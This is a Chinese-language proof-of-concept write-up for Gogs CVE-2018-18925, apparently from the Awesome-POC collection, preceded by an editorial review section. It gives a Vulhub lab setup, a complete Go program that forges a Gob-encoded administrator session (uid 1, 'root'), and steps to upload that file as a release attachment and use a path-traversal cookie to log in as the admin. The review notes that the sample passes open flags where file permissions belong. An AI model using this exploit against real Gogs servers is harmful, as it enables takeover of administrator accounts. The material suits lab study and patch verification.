


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：称&lt;=0.11.66；需文件会话后端及普通账号上传可控Gob附件，实验需重启从内存切为文件

代码与实验材料：完整Gob生成器、附件路径和Cookie；目标uid1/root为实验假设

来源证据范围：官方issue5469及两篇技术分析，Threekiii转录

- **凭据与会话边界（1）**：文件读取与可控会话条件需区分；依据：不是仅给任意sessionid即登录任意用户；需服务器可读、攻击者可写且Gob结构合适的文件。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **适用与权限边界（2）**：Go样例文件权限参数可疑；依据：ioutil.WriteFile第三参数传os.O_CREATE|os.O_WRONLY，类型语义应是文件权限而非OpenFile打开标志；未执行核实。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Gogs 任意用户登录漏洞 CVE-2018-18925

## 漏洞描述

gogs是一款极易搭建的自助Git服务平台，具有易安装、跨平台、轻量级等特点，使用者众多。

其0.11.66及以前版本中，（go-macaron/session库）没有对sessionid进行校验，攻击者利用恶意sessionid即可读取任意文件，通过控制文件内容来控制session内容，进而登录任意账户。

参考链接：

- https://github.com/gogs/gogs/issues/5469
- https://xz.aliyun.com/t/3168
- https://www.anquanke.com/post/id/163575

## 环境搭建

Vulhub执行如下命令启动gogs：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:3000`，即可看到安装页面。安装时选择sqlite数据库，并开启注册功能。

安装完成后，需要重启服务：`docker-compose restart`，否则session是存储在内存中的。

## 漏洞复现

使用Gob序列化生成session文件：

```go
package main

import (
    "bytes"
    "encoding/gob"
    "encoding/hex"
    "fmt"
    "io/ioutil"
    "os"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    var uid int64 = 1
    obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
    }
    err = ioutil.WriteFile("data", data, os.O_CREATE|os.O_WRONLY)
    if err != nil {
        fmt.Println(err)
    }
    edata := hex.EncodeToString(data)
    fmt.Println(edata)
}
```

然后注册一个普通用户账户，创建项目，并在“版本发布”页面上传刚生成的session文件：



通过这个附件的URL，得知这个文件的文件名：`./attachments/2eb7f1a2-b5ec-482e-a297-15b625d24a10`。

然后，构造Cookie：`i_like_gogits=../attachments/2/e/2eb7f1a2-b5ec-482e-a297-15b625d24a10`，访问即可发现已经成功登录id=1的用户（即管理员）：



完整的利用过程与原理，可以阅读参考链接中的文章。


---

> 来源：Threekiii/Awesome-POC
